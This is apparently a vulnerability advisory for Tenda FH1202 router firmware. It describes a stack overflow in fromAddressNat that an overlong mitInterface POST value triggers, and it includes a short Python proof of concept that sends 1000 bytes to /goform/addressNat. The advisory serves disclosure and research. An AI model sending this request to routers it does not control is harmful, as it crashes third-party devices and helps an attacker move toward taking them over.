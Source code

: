 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2079.html

## Affected version

FH1202 V1.2.0.14(408)

## Vulnerability details

The Tenda FH1202 V1.2.0.14(408) firmware has a stack overflow vulnerability in the `fromAddressNat` function. The `v2` variable receives the `mitInterface` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `mitInterface` can trigger this security vulnerability.

![image-20240319225248356](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225248356.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/addressNat"
payload = b"a"*1000

data = {"mitInterface": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240319225304889](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319225304889.png)
